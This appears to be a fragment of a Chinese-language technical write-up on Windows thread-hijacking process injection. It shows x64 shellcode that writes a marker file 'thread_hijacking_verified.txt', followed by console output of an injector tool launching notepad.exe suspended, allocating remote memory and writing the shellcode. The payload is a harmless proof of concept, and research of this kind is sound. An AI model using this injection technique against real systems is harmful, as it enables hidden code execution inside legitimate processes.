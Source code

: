 **Shellcode 逻辑**:
```c
// 动态解析 API 地址（在生成时硬编码到 shellcode）
FARPROC pCreateFileA = GetProcAddress(hKernel32, "CreateFileA");
FARPROC pWriteFile = GetProcAddress(hKernel32, "WriteFile");
FARPROC pCloseHandle = GetProcAddress(hKernel32, "CloseHandle");
FARPROC pExitProcess = GetProcAddress(hKernel32, "ExitProcess");

// Shellcode 行为：
sub rsp, 0x48                                 // 栈对齐
lea rcx, [rip+filepath]                       // "C:\Users\Public\thread_hijacking_verified.txt"
mov rdx, 0x40000000                           // GENERIC_WRITE
xor r8, r8                                    // dwShareMode = 0
xor r9, r9                                    // lpSecurityAttributes = NULL
mov qword [rsp+0x20], 2                       // CREATE_ALWAYS
mov qword [rsp+0x28], 0x80                    // FILE_ATTRIBUTE_NORMAL
mov qword [rsp+0x30], 0                       // hTemplateFile = NULL
mov rax, <CreateFileA_addr>                   // 硬编码 API 地址
call rax                                      // 创建文件
mov r15, rax                                  // 保存文件句柄

mov rcx, r15                                  // hFile
lea rdx, [rip+content]                        // "Thread Hijacking Verified!..."
mov r8, <content_len>                         // 字节数
lea r9, [rsp+0x38]                            // lpNumberOfBytesWritten
mov qword [rsp+0x20], 0                       // lpOverlapped = NULL
mov rax, <WriteFile_addr>                     // 硬编码 API 地址
call rax                                      // 写入文件

mov rcx, r15                                  // hFile
mov rax, <CloseHandle_addr>                   // 硬编码 API 地址
call rax                                      // 关闭句柄

xor rcx, rcx                                  // dwExitCode = 0
mov rax, <ExitProcess_addr>                   // 硬编码 API 地址
call rax                                      // 退出进程
```

**执行注入**:
```bash
$ ./build/thread_hijacking.exe "C:\Windows\System32\notepad.exe" fileverify_shellcode.bin

========================================
  Thread Hijacking
  线程执行劫持
========================================

[+] 已读取 shellcode: 330 字节
[*] 目标程序: C:\Windows\System32\notepad.exe

[*] 步骤 1: 创建挂起的进程...
[+] 已创建挂起的进程
  [+] 进程 ID: 52648
  [+] 线程 ID: 66976
  [+] 进程句柄: 0x00000000000002E0
  [+] 线程句柄: 0x00000000000002E4

[*] 步骤 2: 分配远程内存...
[+] 已分配远程内存: 0x000001E6DBB20000 (大小: 330 字节)

[*] 步骤 3: 写入 shellcode...
[+] 已写入 330 字节

[*] 步骤 4: 获取线程上下文...
[+] 已获取线程上下文 (x64)
```
